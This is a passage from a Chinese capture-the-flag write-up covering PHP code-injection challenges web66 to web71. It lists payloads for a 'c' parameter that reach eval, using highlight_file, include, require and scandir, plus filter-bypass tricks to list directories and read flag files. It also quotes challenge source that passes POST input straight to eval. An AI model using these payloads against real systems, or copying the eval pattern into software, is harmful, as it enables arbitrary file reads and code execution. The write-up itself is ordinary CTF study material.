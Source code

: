 

```php
//payload:
c=show_source('flag.php');
c=highlight_file('flag.php');
c=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```



### web66-67

查找目录:

```php
c=$a=opendir('/');while(($file=readdir($a))!==false){echo $file."<br/>";}
c=var_export(scandir('/'));
```



payload:

```php
c=highlight_file('/flag.txt');
c=include '/flag.txt';  //使用文件包含
c=require('/flag.txt');
```





### web68-70

扫描目录:

```php
c=var_export(scandir('/'));
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```



payload:

```php
c=include '/flag.txt';  //使用文件包含
c=require('/flag.txt');
c=require_once('/flag.txt');
```







### web71

查看源码：

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

```